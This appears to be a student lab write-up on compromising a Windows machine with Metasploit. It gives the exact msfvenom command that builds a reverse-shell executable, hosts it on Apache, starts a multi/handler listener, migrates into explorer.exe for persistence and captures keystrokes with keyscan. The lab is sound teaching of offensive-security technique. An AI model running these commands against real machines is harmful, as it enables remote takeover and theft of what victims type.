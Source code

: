 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![eh exp 61](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/6906bd7f-cd7c-4c9c-a2ae-7b1ca0adf07b)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![eh exp 62](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/e5b18628-aa35-4e4f-a5ec-9761d3973299)
copy the fun.exe into the apache /var/www/html folder
![eh exp 63](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/346be849-1fb1-4118-8c70-c2f93d36d283)
Start apache server sudo systemctl apache2 start
![eh exp 64](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/61094de1-8d3e-45c6-9df8-13cc8bf713ae)
Check the status of apache2
![eh exp 65](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/25c8dfbd-4198-4a61-b1ab-e3b07ba81b1f)
Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![eh exp 66](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/d5634df4-88dd-4bc0-af11-bd0ededf8d4e)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![eh exp 67](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/7df5eae7-4a0c-49fb-92bf-56736a6866e2)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![eh exp 68](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/b9174417-200f-4e06-b669-c3148899e7fb)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![eh exp 69](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/24172985-4d98-43f4-bec7-dbbb937b798b)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![eh exp 610](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/20f1fffe-3518-40b3-9a11-7d78882fbe6d)
keyscan_dump Shows the keystrokes captured so far 
![eh exp 611](https://github.com/swetha1510/Compromising-windows-using-Metasploit/assets/120623583/9a6f844d-ea15-4095-adb6-37167a05d549)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
